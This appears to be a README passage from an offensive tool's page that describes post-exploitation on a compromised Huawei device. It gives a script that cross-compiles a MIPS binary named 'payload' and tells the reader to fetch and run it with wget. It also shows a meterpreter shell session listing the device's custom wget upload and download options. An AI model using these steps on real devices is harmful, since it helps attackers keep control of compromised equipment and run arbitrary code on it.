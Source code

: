 ## Post-exploitation

### MIPS toolchain

Beside a basic meterpreter shell, you can compile your own C programs and
run them on the device! Download the [Sourcery CodeBench Lite](https://sourcery.mentor.com/GNUToolchain/package13838/public/mips-linux-gnu/mips-2016.05-8-mips-linux-gnu-i686-pc-linux-gnu.tar.bz2)
MIPS toolchain then compile your programs in the following manner:


```
#!/data/data/hilled.pwnterm/files/usr/bin/bash

TOOLCHAIN_ROOT=mips-2016.05
CROSS_COMPILE=$TOOLCHAIN_ROOT/bin/mips-linux-gnu-

${CROSS_COMPILE}gcc                                                     \
                --sysroot=${TOOLCHAIN_ROOT}/mips-linux-gnu/libc/uclibc/ \
                -Wl,-dynamic-linker,/lib/ld-uClibc.so.0                 \
                -static                                                 \
                program.c

${CROSS_COMPILE}strip -s a.out -o payload
```

Then call `wget` to download and run the generated `payload` above. Be careful
of the device's own wget call conventions below.

### A special wget command

Huawei crafted their own `wget` implementation inside the shipped version of
busybox. It has the following syntax:


```
meterpreter > shell
Process 17951 created.
Channel 1 created.
wget -h
wget: invalid option -- h
BusyBox vv1.9.1 (2012-10-16 22:24:47 CST) multi-call binary

Usage: wget [OPTION]... HOST

wget download and upload a file via HTTP

Options:
	-g    Download
	-s    Upload
	-v    Verbose
	-u    Username to be used
	-p    Password to be used
	-l    Local file path
	-r    Remote file path
	-P    Port to be used, optional
	-B    Bind local ip, optional
	-A    Remote resolved ip, optional
	-b    Transfer start position
	-e    Transfer length
	-m    Max transfer size
	-c    Compress downloaded file
```
